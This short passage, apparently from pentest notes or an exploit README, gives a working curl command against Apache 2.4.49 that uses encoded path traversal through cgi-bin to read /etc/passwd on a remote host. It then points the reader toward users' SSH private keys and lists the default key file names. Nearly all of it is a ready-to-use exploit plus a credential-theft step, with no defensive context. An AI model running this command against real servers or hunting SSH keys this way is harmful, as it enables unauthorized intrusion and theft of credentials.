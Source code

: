 # Tested on Apache 2.4.49 on linux host

```
curl -s --path-as-is -d "echo Content-Type: text/plain; echo;" "$RHOST/cgi-bin/.%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd"
```
Now, look for the different users' ssh keys. Relevant default key names are:

```
id_rsa, id_ecdsa, id_ed25519, id_ed25519_sk, id_ecdsa_sk, and id_dsa
```
